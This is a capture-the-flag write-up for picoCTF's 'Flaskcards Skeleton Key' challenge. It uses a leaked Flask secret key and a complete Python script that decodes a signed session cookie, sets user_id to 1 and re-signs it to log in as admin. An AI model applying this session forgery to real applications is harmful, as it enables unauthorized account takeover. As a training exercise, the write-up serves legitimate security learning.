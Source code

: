## Flaskcards Skeleton Key - 600

### Description

> Nice! You found out they were sending the Secret_key: 73e1f2c96e364f0cc3371c31927ed156. Now, can you find a way to log in as admin? http://2018shell1.picoctf.com:12261 (link).

### Write up

Flask secret key is given, which means you can generate arbitrary session.

I Used [this](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe) code for encoding/decoding session.

```
#!/usr/bin/env python
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
    # Override method
    # Take secret_key instead of an instance of a Flask app
    def get_signing_serializer(self, secret_key):
        if not secret_key:
            return None
        signer_kwargs = dict(
            key_derivation=self.key_derivation,
            digest_method=self.digest_method
        )
        return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                      serializer=self.serializer,
                                      signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.loads(cookieValue)

# Keep in mind that flask uses unicode strings for the
# dictionary keys
def encodeFlaskCookie(secret_key, cookieDict):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
    sk = '73e1f2c96e364f0cc3371c31927ed156'

    cookie = '.eJwlj0GKAzEMBP_icw6WZclSPjPIssSGwC7MJKeQv2fCHvpSUFD9KlvucfyU62N_xqVst1WupdVEGpAJNBZDE56wzimrCUsVaI0xe1v4hcObtEZ1OKp75yRVZOydJgtS2HCopqFddRpSQgcbKAQ5WyIMEJI0M-2R7jPLpfix5_b4u8fv2VMpMYmcLQjFUHQt5kWUo2OELagKPOfpPY_Y_0-AlvcHuq49yQ.DpJHxA.Sc3OH19Ce_MobipN3WM0uQnRm_Y'
    decodedDict = decodeFlaskCookie(sk, cookie)

    decodedDict[u'user_id'] = u'1'
    print(decodedDict)

    cookie = encodeFlaskCookie(sk, decodedDict)
    print(cookie)
```